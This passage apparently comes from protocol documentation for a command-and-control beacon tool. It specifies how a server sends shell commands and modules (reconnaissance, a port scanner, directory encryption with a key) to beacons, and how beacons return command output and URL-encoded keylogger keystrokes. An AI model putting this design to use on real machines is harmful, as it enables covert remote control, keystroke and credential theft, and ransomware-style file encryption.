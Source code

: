 **Usage**: Direct shell/cmd execution (e.g., `whoami`, `systeminfo`, `ls -la`)

**Example**:
```
execute_command|whoami
```

### Module Execution
```
execute_module|{module_name}|{parameters}
```

**Purpose**: Execute predefined beacon modules with structured parameters  
**Direction**: Server → Beacon  
**Parameters**:
- `module_name`: Name of the module to execute
- `parameters`: Comma-separated parameter list (optional)

**Examples**:
```
execute_module|BasicRecon
execute_module|PortScanner|192.168.1.1-254,80,443,3389
execute_module|EncryptDirectory|C:\temp,txt,MySecretKey123
```

## 4. Command Output Reporting

### Standard Command Output
```
command_output|{beacon_id}|{output}
```

**Purpose**: Beacon reports command execution results  
**Direction**: Beacon → Server  
**Parameters**:
- `beacon_id`: Beacon identifier
- `output`: Command output (stdout/stderr combined)

**Server Processing**: 
- Logged to `output_{beacon_id}.txt` in logs directory
- Clears pending command for the beacon
- Updates last response timestamp

**Example**:
```
command_output|a1b2c3d4|DESKTOP-ABC123\user1
```

### Keylogger Output
```
keylogger_output|{beacon_id}|{encoded_keystrokes}
```

**Purpose**: Specialized output for keylogger data  
**Direction**: Beacon → Server  
**Parameters**:
- `beacon_id`: Beacon identifier
- `encoded_keystrokes`: URL-encoded keystroke data
